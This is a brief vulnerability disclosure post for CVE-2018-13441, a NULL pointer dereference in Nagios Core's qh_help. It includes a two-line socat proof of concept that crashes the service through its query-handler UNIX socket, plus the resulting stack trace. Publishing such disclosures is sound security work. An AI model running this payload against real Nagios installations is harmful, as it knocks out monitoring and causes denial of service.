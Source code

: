 ```yaml
---
layout: post
title: "[CVE-2018-13441] Nagios Core qh_help NULL Pointer Dereference"
date: 2018-07-09
categories:
    - blog
keywords: "nagios, nagioscore, dos, denial of service"
---
```


qh_help in Nagios Core version 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attacker to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```shell
$ echo -ne “#help\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@help\0" | socat unix-connect:./poc/nagios.qh -

#0 0x554fef in qh_help /home/user/nagioscore/base/query-handler.c:374:7
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f61587ae82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
